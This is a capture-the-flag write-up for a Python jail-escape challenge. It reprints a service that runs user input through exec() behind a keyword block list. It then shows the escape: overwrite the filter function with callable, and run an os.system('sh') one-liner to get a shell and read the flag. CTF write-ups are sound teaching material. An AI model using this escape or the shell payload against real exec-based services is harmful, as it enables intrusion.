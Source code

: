 # 🐍 evil snek — WWF CTF 2025

## 📌 Challenge Info
- **Name:** evil snek
- **Category:** Python Sandbox / Jail Escape
- **Points:** ?
- **CTF:** WWF CTF 2025  
- **Host:** `chal.wwctf.com:4000`

---

## 📄 Challenge Description
You're stuck inside the most evil snek 🐍. Every word you want to say is blocked. But snek listens if you're smart enough.

---

## 🔍 Provided Code
```python
#!/usr/bin/python3

def blacklist(cmd):
    if cmd.isascii() == False:
        return True
    
    bad_cmds = ['"', "'", "print", "_", "import", "os", "lambda", "system", 
                "(", ")", ".", "getattr", "setattr", "globals", "builtins", 
                "input", "compile", "eval", "exec", "open", "read"]
    
    for i in bad_cmds:
        if i in cmd:
            print("Blacklisted command found:", i)
            return True
    
    return False

while True:
    inp = input("> ")
    if not blacklist(inp):
        try:
            exec(inp)
        except Exception as e:
            print("snek says: Error!")
            exit(0)
    else:
        print("snek says: Blacklisted!")
        exit(0)
```

## 🧪 Analysis
- A strict blacklist prevents usage of dangerous keywords or characters (e.g., `"`, `'`, `_`, `.`, `(`, `)`, etc.)
- However, there's **no real sandboxing** — just a function called `blacklist()` that checks input
- Input is then passed directly to `exec()` if it passes the blacklist check
- **Critical vulnerability**: The `blacklist` function itself can be overwritten!

## 💥 Exploitation Strategy
The blacklist was strict — but **not enforced at runtime**. It simply checked whether the command contains banned strings.

**The trick?** Overwrite the `blacklist` function itself with a non-blacklisted callable that always returns `False`.

## 🧠 Step-by-Step Exploit

### 1. Connect to the challenge:
```bash
nc chal.wwctf.com 4000
```

### 2. Overwrite the `blacklist` function:
```python
> blacklist = callable
```
✅ This bypasses the blacklist completely, because `blacklist` is no longer a filtering function. The `callable` builtin always returns a boolean, and when used in the `if not blacklist(inp):` check, it effectively disables filtering.

### 3. Now you can run *any* code:
```python
> __import__("os").system("sh")
```

### 4. Spawned shell:
```bash
$ ls
flag.txt  run
$ cat flag.txt
```

## 🏁 Flag
```
wwf{s1lly_sn3k_1_just_0verwr1t3_y0ur_funct10n}
